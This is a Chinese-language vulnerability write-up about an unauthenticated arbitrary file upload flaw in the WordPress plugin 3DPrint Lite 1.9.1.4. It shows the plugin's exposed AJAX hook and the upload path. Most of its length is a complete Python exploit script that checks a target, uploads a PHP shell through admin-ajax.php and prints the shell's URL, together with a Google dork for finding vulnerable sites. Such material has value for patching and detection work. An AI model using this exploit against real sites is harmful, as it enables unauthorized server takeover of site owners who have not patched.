





WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞¶
漏洞描述¶
WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限
漏洞影响¶
3DPrint Lite Version 1.9.1.4 版本
插件名¶
3DPrint Lite
https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip
漏洞复现¶
首先看一下插件注册的接口

if ( is_admin() ) {
add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
include 'includes/3dprint-lite-admin.php';
}
else {
add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
include 'includes/3dprint-lite-frontend.php';
}
跟踪 p3dlite_handle_upload 方法 wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php

向下看可以看到一个标准的文件上传代码

通过调试可以找到上传路径 /wp-content/uploads/p3d/

未授权调用 p3dlite_handle_upload 上传文件
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1
import os.path
from os import path
import json
import requests;
import sys
def print_banner():
print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
print("Author -> spacehen (www.github.com/spacehen)")
def print_usage():
print("Usage: python3 exploit.py [target url] [php file]")
print("Ex: python3 exploit.py https://example.com ./shell.php")
def vuln_check(uri):
response = requests.get(uri)
raw = response.text
if ("jsonrpc" in raw):
return True;
else:
return False;
def main():
print_banner()
if(len(sys.argv) != 3):
print_usage();
sys.exit(1);
base = sys.argv[1]
file_path = sys.argv[2]
ajax_action = 'p3dlite_handle_upload'
admin = '/wp-admin/admin-ajax.php';
uri = base + admin + '?action=' + ajax_action ;
check = vuln_check(uri);
if(check == False):
print("(*) Target not vulnerable!");
sys.exit(1)
if( path.isfile(file_path) == False):
print("(*) Invalid file!")
sys.exit(1)
files = {'file' : open(file_path)}
print("Uploading Shell...");
response = requests.post(uri, files=files)
file_name = path.basename(file_path)
if(file_name in response.text):
print("Shell Uploaded!")
if(base[-1] != '/'):
base += '/'
print(base + "wp-content/uploads/p3d/" + file_name);
else:
print("Shell Upload Failed")
sys.exit(1)
main();
